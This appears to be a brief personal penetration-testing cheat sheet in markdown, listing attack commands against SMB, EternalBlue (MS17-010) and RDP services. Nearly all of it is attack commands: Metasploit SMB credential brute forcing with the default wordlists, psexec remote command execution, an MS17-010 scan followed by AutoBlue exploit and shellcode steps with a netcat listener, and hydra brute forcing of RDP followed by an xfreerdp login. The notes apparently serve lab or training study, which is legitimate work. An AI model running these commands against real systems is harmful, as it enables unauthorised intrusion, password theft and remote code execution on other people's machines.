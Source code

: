 ```

```

## SMB 
+SMB file shares and uses port 445 and ran ontop of port 139, samba is the open source linux implementation of SMB
+ User authentication and share authentication 
```
msfconsole 
search smb_login
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
psexec.py username@IP cmd.exe

msfconsole
use exploit/windows/smb/psexec
show options
set RHOSTS
Set SMBuser
set SMBPass

```
## ETERNAL BLUE
+ RCE to SMB services and elevasted privliages
```
nmap -sV -p 445 --script=smb-vuln-ms17-010 IP
AutoBlue MS17-010
set up shell code
1
1
set up netcat
eternalblue_exploit7.py ip shellcode/shellcode.bin

search eternalblue 

```
## RDP
+ Remote Desktop Protocol 
```
msfconsole
search rdp_scanner
use
set rhost
set rport
exploit 
```
```
hydra -L username.txt -P password.txt rdp://IP -s PORTNUMBER
xfreerdp /u:username /p:password /v:IP:PORT
```
